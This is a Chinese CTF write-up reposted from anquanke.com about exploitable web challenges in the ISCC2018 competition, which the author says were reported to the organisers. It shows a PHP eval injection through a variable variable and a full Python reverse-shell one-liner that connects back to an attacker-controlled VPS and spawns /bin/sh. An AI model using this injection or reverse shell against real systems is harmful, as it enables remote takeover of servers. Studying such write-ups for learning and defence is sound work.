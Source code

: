 > 原文链接: https://www.anquanke.com//post/id/147989 


# ISCC2018线上赛之Web搅屎


                                阅读量   
                                **174757**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01a18e6255c870769e.jpg)](https://p5.ssl.qhimg.com/t01a18e6255c870769e.jpg)



## 前言

这篇文章主要是总结一下在ISCC中发现的存在漏洞的Web题目，这些漏洞都可以导致题目被搅屎，甚至环境被提权：），当然我在发现的第一时间上报给主办方，至于修不修复就是他们的事情了。虽然说这个比赛的题目大多都是chao的，但是拿来练手刚好。



## 漏洞点

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E4%B8%80"></a>漏洞一

这题题目叫做：php是世界上最好的语言，题目源代码如下：

```
&lt;?php
    include 'flag.php';
    $a = @$_REQUEST['a'];
    @eval("var_dump($$a);");
    show_source(__FILE__);
?&gt;
```

可以看到这里有一个可变变量 `$$a` ，于是想到用 ``{`php代码`}`` 这种方式来执行代码，至于为什么这种方式能够执行代码(客服小哥哥问过我)，参考官方手册吧： [可变变量](http://php.net/manual/zh/language.variables.variable.php)

我发现题目环境装有python，于是打算用python反弹shell（客服在复现的时候直接使用nc发现shell会一直掉，我用python弹的shell就没掉过），代码如下：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("你的VPSIP",端口号));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
